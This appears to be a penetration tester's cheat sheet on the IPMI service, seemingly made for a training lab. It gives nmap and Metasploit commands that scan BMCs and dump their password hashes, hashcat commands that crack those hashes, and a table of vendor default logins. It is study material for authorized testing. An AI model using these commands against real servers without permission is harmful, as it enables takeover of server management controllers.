 ```yaml
---
title: "Intelligent Platform Management Interface"
date: 2025-08-23
tags: [ipmi, service]
port: [udp, 623]
---
```


# Intelligent Platform Management Interface

## Enumeration

*Common Commands*

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan | Hash Dum

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

# Hash dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Crack the hashes with hascat

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

# With other wordlist
hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt
```

### Common or default logins

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomised 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |

### Service Information

- [Pentesting IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)

